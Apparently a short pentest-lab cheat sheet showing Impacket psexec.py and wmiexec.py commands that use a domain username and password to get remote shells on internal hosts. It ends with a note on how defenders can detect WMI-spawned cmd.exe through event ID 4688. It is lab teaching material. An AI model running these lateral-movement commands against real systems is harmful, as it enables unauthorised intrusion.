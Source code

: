 ## psexec
```powershell
psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125 
```

## wmiexec
```powershell
wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5  
```

Note that this shell environment is not fully interactive, so each command issued will execute a new cmd.exe from WMI and execute your command. The downside of this is that if a vigilant defender checks event logs and looks at event ID 4688: A new process has been created, they will see a new process created to spawn cmd.exe and issue a command. This isn't always malicious activity since many organizations utilize WMI to administer computers, but it can be a tip-off in an investigation